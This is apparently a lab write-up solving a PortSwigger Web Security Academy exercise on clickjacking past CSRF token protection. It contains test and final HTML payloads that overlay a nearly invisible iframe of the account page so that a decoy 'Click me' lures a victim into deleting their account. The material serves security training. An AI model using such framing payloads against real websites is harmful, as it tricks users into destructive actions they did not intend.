


# Basic clickjacking with CSRF token protection
# Objective
This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Testing payload

```html
<body>
	<style>
    iframe {
        position:relative;
        width: 1000;
        height: 600;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:510;
        left:60;
        z-index: 1;
    }
    </style>

    <div>Test me</div>
    <iframe src="https://0ace004a03c816d98106d4cc00cb00fc.web-security-academy.net/my-account?"></iframe>
</body>
```
||
|:--:| 
| *Target - Delete account button* |
||
| *Overlayed websites - testing aligment and position of the "Test me" text* |

## Exploitation
In order to solve the lab the following steps must be completed:
- Create payload aligning the `<div>` (with text `Click me`) with delete acount button.
- `Store` the payload
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

Final exploit:
```html
<body>
	<style>
    iframe {
        position:relative;
        width: 1000;
        height: 600;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:510;
        left:60;
        z-index: 1;
    }
    </style>

    <div>Click me</div>
    <iframe src="https://0ace004a03c816d98106d4cc00cb00fc.web-security-academy.net/my-account"></iframe>
</body>
```
